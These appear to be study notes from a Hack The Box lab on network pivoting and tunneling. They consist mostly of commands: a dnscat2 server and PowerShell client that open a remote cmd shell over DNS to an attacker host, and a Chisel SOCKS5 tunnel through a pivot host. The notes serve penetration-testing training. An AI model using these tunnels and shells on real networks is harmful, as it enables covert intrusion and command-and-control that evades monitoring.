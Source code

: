 ```cmd
C:\Windows\system32> netsh.exe interface portproxy show v4tov4
```

# DNS Tunneling with Dnscat2

DNSCAT2 - https://github.com/iagox86/dnscat2

#### Starting the dnscat2 server

```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server.

#### Cloning dnscat2-powershell to the Attack Host
```shell-session
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Transfer to the pivot host
#### Importing dnscat2.ps1

```powershell
PS C:\htb> Import-Module .\dnscat2.ps1
```

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

# SOCKS5 Tunneling with Chisel

```shell
 git clone https://github.com/jpillora/chisel.git
```

```shell
cd chisel
go build
```

shrinking the binary of chisel 
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s
#### Running the Chisel Server on the Pivot Host
```shell
./chisel server -v -p 1234 --socks5
```
#### Connecting to the Chisel Server
```shell
./chisel client -v 10.129.202.64:1234 socks
```
